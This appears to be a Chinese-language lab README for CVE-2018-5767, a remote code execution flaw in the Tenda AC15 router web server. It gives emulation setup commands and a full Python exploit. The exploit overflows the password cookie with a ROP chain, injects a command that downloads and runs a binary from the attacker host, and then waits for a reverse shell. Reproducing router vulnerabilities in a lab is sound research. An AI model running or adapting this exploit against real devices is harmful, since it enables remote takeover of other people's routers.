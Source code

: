 # Tenda AC15 远程代码执行漏洞（CVE-2018-5767）

## 漏洞环境

- docker：攻击、调试主机：192.168.2.1
- qemu-system：固件主机：192.168.2.2
- httpd（有漏洞 Web 服务器）：192.168.2.2:80
- 镜像依赖：`firmianay/ubuntu1604 -> firmianay/qemu-system:armhf`

使用 `firmianay/binwalk` 解压固件：

```sh
$ docker run --rm -v $PWD/firmware/:/root/firmware firmianay/binwalk -Mer "/root/firmware/US_AC15V1.0BR_V15.03.1.16_multi_TD01.bin"
```

构建并启动漏洞环境：

```sh
# 初始化环境
$ ./init_env.sh arm

# 构建镜像
$ docker-compose -f docker-compose-system.yml build

# 启动容器
$ docker-compose -f docker-compose-system.yml up

# 启动完成后，开启 socks 代理
$ ssh -D 2345 root@127.0.0.1 -p 1234
# 配置浏览器代理，即可登陆 Web 后台 http://192.168.2.2/

# 漏洞利用，根据输出的地址信息修改 libc_base
$ python3 tools/exp.py
```

## 漏洞复现

![img](./poc.png)

## Exploit

```py
#!/usr/bin/python3

import requests
from pwn import *
from threading import Thread

cmd  = b'wget http://192.168.2.1:8000/tools/msf -O /msf '
cmd += b'&& chmod 777 /msf '
cmd += b'&& /msf'

assert(len(cmd) < 255)

libc_base = 0x76df3000

system = libc_base + 0x5A270
mov_r0_ret_r3 = libc_base + 0x40cb8
pop_r3 = libc_base + 0x18298

payload  = b'A'*(444) + b'.gif' + p32(pop_r3) + p32(system) + p32(mov_r0_ret_r3) + cmd

url = "http://192.168.2.2:80/goform/execCommand"
cookie = {"Cookie": 'password='+payload.decode('latin1')}

def attack():
    try:
        requests.get(url, cookies=cookie)
    except Exception as e:
        print(e)

thread = Thread(target=attack)
thread.start()

io = listen(31337)
io.wait_for_connection()
log.success("getshell")
io.interactive()

thread.join()
```

## 参考链接

- <https://fidusinfosec.com/remote-code-execution-cve-2018-5767>
- <https://www.freebuf.com/articles/wireless/166869.html>
- <https://wzt.ac.cn/2019/03/19/CVE-2018-5767>
- <https://www.anquanke.com/post/id/204326>

